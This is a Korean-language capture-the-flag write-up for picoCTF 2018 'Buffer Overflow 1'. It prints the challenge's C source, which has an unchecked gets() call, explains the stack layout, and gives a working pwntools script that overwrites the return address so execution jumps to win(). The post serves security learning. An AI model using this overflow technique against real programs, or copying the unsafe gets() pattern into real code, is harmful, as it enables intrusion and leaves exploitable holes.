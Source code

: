 # picoCTF 2018

<h5> Buffer OverFlow 1 </h5>
<hr>

<h5> Solution </h5>

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

<p> 이전과 똑같이 버퍼 오버플로우 취약점 환경이 생긴다. </p>
<p> vuln 함수에서 buf를 입력받을때 gets 함수를 사용하는데, 입력값 길이를 검증하지 않아서 오버플로우를 시킬 수 있다. </p>
<p> 이번에는 RET 주소를 조작해서 flag를 출력해주는 win() 함수로 넘겨줘야 한다. </p>

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fk.kakaocdn.net%2Fdn%2Fm3djU%2FbtqxSivjZW8%2Fkl8qjqkXPN7Et8s2xrwSu1%2Fimg.png"><br>

<p> 메모리를 보면 우리가 입력주는 값은 vuln+9(lea eax, [ebp-0x28]) 공간에 위치한다. </p>
<p> 0x28 = 40Byte + SFP(4Byte) + RET(win) 으로 페이로드를 구성해주면 된다. </p>

```py
#!/usr/bin/python
  
from pwn import *

p = process('./vuln')

e = ELF('./vuln')

win = e.symbols['win']

payload = "A"*44
payload += p32(win)

p.sendline(payload)

print p.recv()

p.interactive()

p.close()
```